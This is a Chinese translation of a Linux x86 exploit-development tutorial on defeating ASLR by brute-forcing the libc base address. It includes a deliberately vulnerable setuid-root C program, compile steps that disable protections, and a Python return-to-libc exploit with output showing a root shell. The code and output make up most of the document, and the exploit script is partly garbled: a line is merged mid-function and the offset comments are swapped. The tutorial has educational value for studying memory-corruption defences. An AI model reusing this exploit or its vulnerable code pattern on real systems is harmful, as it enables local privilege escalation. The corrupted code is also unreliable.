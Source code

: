 ```yaml
---
title: Linux (x86) Exploit 开发系列教程之七 绕过 ASLR -- 第二部分
id: csdn71057216
---
```


# 绕过 ASLR – 第二部分

> 译者：[飞龙](https://github.com/wizardforcel)
> 
> 原文：[Bypassing ASLR – Part II](https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-ii/)
> 
> 本文承接 [@hackyzh](http://bbs.pediy.com/user-694899.htm) 翻译的[第六篇](http://bbs.pediy.com/thread-217107.htm)。

预备条件：

[经典的基于栈的溢出](http://bbs.pediy.com/thread-216868.htm)

VM 配置：Ubuntu 12.04 (x86)

这篇文章中，让我们看看如何使用爆破技巧，来绕过共享库地址随机化。

> 什么是爆破？

在这个技巧中，攻击者选择特定的 Libc 基址，并持续攻击程序直到成功。假设你足够幸运，这个技巧是用于绕过 ASLR 的最简单的技巧。

漏洞代码：

```
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```

编译命令：

```
#echo 2 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

让我们来看看，攻击者如何爆破 Libc 基址。下面是（当随机化打开时）不同的 Libc 基址：

```
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b6000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7568000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7595000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d9000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7542000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb756a000)
$
```

上面展示了，Libc 随机化仅限于 8 位。因此我们可以在最多 256 次尝试内，得到 root shell。在下面的利用代码中，让我们选择`0xb7595000`作为 Libc 基址，并让我们尝试几次。

利用代码：

```
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

libc_base_addr = 0xb7595000
exit_off = 0x00032be0             #Obtained from "readelf -s libc.so.6 | grep system" command.
system_off = 0x0003f060           #Obtained from "readelf -s libc.so.6 | grep exit" command.
system_addr = libc_base_addr + system_off
exit_addr = libc_base_addr + exit_off
system_arg = 0x804827d

#endianess convertion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system_addr)
buf += conv(exit_addr)
buf += conv(system_arg)

print "Calling vulnerable program"
#Multiple tries until we get lucky
i = 0
while (i < 256):
 print "Number of tries: %d" %i
 i += 1
 ret = call(["./vuln", buf])
 if (not ret):
  break
 else:
  print "Exploit failed"
```

运行上面的利用代码，我们会得到 root shell（在下面展示）：

```
$ python exp.py 
Calling vulnerable program
Number of tries: 0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
Exploit failed
...
Number of tries: 42
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
Exploit failed
Number of tries: 43
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

注意：也可以爆破类似的栈和堆段的地址。